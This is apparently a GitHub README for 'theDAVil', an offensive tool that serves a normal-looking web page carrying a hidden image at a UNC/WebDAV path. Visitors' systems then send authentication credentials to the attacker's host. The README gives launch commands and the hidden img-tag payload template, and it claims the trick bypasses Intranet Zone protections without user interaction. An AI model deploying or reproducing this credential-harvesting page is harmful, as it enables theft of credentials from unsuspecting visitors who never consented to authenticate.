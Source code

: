 # theDAVil

Host a website with an image at a UNC path and get creds. Bypasses Intranet Zones and forces auth
over the Internet.

__note:__ discovered later that this only work on virtualized hosts that use
hypervisor-defined-networking that will resolve intergerized IP addresses
via DNS, to a normal IP. Having such a hypervisor bypasses the Intranet 
Zones restriction of automatic authentication, bypassing any need for user 
interaction.

__A normal looking web page__

![](https://i.imgur.com/fVEv9uJ.png)


__Behind the Scenes__

![](https://i.imgur.com/o2jjw65.png)



## Usage

**With Docker**
```sh
./theDAVil.sh 192.168.99.101 443`
```

**With Just Ruby**
```sh
# If you already have a ruby dev env
bundle
ruby server.rb 192.168.99.101 443


# Else
apt install rbenv ruby-build
rbenv install 3.0.0
eval $(rbenv init -)

bundle install
bundle exec ruby server.rb 192.168.99.101 443
```

## Customization

Replace the `views/index.erb` with your content. Make sure you keep the template line that looks
like this:

```erb
<img src="<%= "\\\\#{@host}@#{@port}\\logo.png" %>" style="display: none" />
```
